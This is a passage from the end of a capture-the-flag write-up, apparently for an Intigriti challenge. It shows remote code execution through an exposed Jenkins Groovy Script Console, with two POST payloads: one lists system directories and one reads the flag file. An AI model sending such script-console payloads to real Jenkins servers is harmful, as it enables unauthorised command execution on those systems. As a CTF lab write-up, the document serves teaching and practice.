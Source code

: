 The fog clears, a quick test on `/script` reveals that the Jenkins Groovy Script Console interface is accessible, no more suspense for the rest of the exploit, this is our RCE.

Switch the HTTP verb to POST and add the appropriate `content-type` to send our crude recon command through the `script` parameter provided for this purpose, in order to localize the flag :

```
script=def cmd = "ls -la / /app /var /home /opt /tmp /etc".execute();
println cmd.text
```

<img src="/images/CTF-0825-6.png" width="100%" style="display: block; margin: 0 auto">

Then, finally, reading the flag :

```
script=def cmd = "cat /app/flag.txt".execute();
println cmd.text
```

<img src="/images/CTF-0825-7.png" width="100%" style="display: block; margin: 0 auto">

Thanks to 0xblackbird and Intigriti for the CTF, and thank you for reading.

Al hamduliLlah;

[zhero;](https://x.com/zhero___)